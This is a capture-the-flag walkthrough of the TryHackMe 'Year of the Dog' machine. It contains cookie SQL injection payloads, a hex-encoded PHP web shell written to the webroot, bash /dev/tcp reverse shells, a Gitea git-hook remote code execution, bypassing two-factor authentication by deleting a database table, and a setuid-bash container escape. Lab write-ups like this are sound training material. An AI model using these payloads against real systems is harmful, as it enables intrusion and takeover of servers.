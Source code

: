 # [Year of the Dog](https://tryhackme.com/room/yearofthedog)
## ENUMERATION
Nmap scan: `nmap -p- -vv <MACHINE-IP> -oG initial-scan` 
```
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
```
SSH on port 22 and webserver on port 80 as usual.

## WEB SERVER

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20120630.png)

I used gobuster for any hidden directories but got nothing.<br>
### SQL INJECTION
Using burp , we see there is a cookie being stored. We could do some injection with the cookie.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20121211.png)

This confirms that SQLi is the way to go. UNION SELECT works.<br>
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,database() -- -` gives databse `webapp`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20122020.png)

`UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='webapp' -- -` gives table `queue`

`UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema='webapp' and table_name='queue'-- -` gives 2 columns : `userID` and `queueNum`

Seems like we can even write to webroot using :` INTO OUTFILE '/var/www/html/`<br>
`UNION SELECT 1,'testing' INTO OUTFILE '/var/www/html/test.txt'-- -` gives:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20124149.png)

Using Command : `UNION SELECT 1,LOAD_FILE('/etc/passwd') -- -` we got 1 user:<br>
`dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash`
 
 As RCE detection is triggered by <? we'll have to hex encode our payload and then pass it through SQL unhex function.<br>
 `UNION SELECT 1,UNHEX('3C3F7068702073797374656D28244745545B27636D64275D293B203F3E') INTO OUTFILE '/var/www/html/cmd.php' -- -`<br>
 Now if it works:

 ![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20142410.png)

It works!<br>
## INITIAL EXPLOIT
Now to move in , save this : `bash -i >& /dev/tcp/<IP Address>/<PORT> 0>&1` to a file and transfer it to the webserver using `<MACHINE-IP>/cmd.php?cmd=wget <YOUR-IP>:<PORT>/<file>`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143013.png)

You should be in:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143345.png)

We are www-data. There is the user flag in dylan's home directory but we don't have the permission to read it. We can read the work_analysis file though.
In there we find Dylan's SSH password.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143630.png)

## FOOTHOLD

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144149.png)

Using `ifconfig`, there seems to be a docker address. We don't seem to be in a container so probably that will come later.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20155929.png)

Using LinPeas , we find `/app/gitea/gitea web` process running under dylan. Also that localhost is available on port 3000.<br>
Let's use SSH port forwarding and check out that port<br>
`ssh dylan@<MACHINE-IP> -L 3000:localhost:3000`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144717.png)

Signing in as dylan we get a 2 factor authentication.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144927.png)

Going back to dylan, checking `gitea` we find a db: `gitea.db` which is an SQLite3 database.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20150729.png)

Let's delete the `two_factor table` from `gitea.db`:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20151132.png)

And we're in:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20151257.png)

## EXPLOITATION
Now searching for any Gitea version 1.13.0 exploits , I found  [CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) exploit.<br>
In the Test-repo, we go to `settings` > `Git Hooks` > `Post Recieve Hook`.<br> In this hook , we can write a shell script that will get executed after getting a new commit.<br>

Add `bash -i >& /dev/tcp/<YOUR-IP>/<CHOSEN-PORT> 0>&1 ` to Post Recieve Hook and update it.<br>
Start a netcat listener, then on your local machine :
```
git clone http://localhost:3000/Dylan/Test-repo.git
cd Test-repo
echo "something" >> README.md
git add README.md
git commit -m 'RCE'
git push
```

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20153122.png)

## PRIVILEGE ESCALATION > ROOT
Now , we're in the container confirmed by the `.dockerenv` file in `/` and we gotta break out. We can `su` rightaway.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20154615.png)

Check the `/data/` directory as the files are usually mount to host.<br>

This is the case here as well as the files in `/data` are identical to the `/gitea` directory in Dylan's shell.<br>
Now just transfer the bash file located in `/bin/` to `/data/` and add the permissions.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20155558.png)

Back at Dylan's: run `./bash -p` and you got root.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20160038.png)






 
 
 
 



